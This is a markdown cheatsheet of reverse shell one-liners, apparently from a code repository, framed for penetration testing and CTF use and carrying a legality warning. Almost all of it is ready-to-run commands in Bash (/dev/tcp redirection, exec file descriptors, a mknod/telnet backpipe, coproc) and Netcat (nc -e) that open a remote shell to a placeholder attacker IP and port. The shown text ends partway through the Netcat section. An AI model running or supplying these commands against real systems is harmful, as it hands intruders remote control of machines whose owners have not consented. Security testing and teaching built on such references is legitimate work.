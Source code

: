 # Reverse Shell Commands Cheatsheet

This cheatsheet provides a collection of common reverse shell commands for various environments and languages. These are typically used for educational purposes, penetration testing (with explicit permission), or CTF challenges.

An excellent online resource for generating and encoding these commands is [https://revshells.com](https://revshells.com).

**Important:** Only use these techniques on systems you own or have explicit, written permission to test. Unauthorized access to computer systems is illegal.

## Bash

**TCP (using `/dev/tcp` - works if the shell is `bash`):**
```bash
bash -i >& /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT> 0>&1
```

**Alternative syntax using `-c` to execute the command:**
```bash
bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT> 0>&1'
```

**Same as above but using double quotes (useful for variable substitution):**
```bash
bash -c "bash -i >& /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT> 0>&1"
```

**Alternative with explicit redirection:**
```bash
exec 5<>/dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT>
cat <&5 | while read line; do $line 2>&5 >&5; done
```

**Using `mknod` and `telnet`:**
```bash
mknod backpipe p
telnet <ATTACKER_IP> <ATTACKER_PORT> 0<backpipe | /bin/bash 1>backpipe 2>backpipe
```

**Bash with `coproc` (Bash 4.0+):**
```bash
coproc bash { bash -i >& /dev/tcp/<ATTACKER_IP>/<ATTACKER_PORT> 0>&1; }; exec 0<&${bash[0]}; exec 1>&${bash[1]}; exec 2>&${bash[1]}
```

## Netcat (nc)

**Traditional Netcat (often `-e` flag is available):**
```bash
nc -e /bin/bash <ATTACKER_IP> <ATTACKER_PORT>
```

**Same as above but using `/bin/sh` instead of `/bin/bash`:**
```bash
nc -e /bin/sh <ATTACKER_IP> <ATTACKER_PORT>
```
